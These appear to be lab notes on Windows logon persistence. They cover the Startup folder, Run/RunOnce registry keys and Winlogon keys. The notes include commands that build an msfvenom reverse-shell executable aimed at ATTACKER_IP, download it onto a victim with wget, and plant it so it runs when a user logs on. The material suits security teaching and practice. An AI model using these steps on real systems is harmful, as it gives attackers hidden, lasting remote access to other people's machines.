 ```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

```shell-session
user@AttackBox$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
```

```shell-session
PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
```

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.
```shell-session
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

### Run / RunOnce
You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`
```shell-session
C:\> move revshell.exe C:\Windows
```

Create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. 
The entry's name can be anything you like, and the value will be the command we want to execute.

### Winlogon
Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.
![[Pasted image 20240911025546.png]]
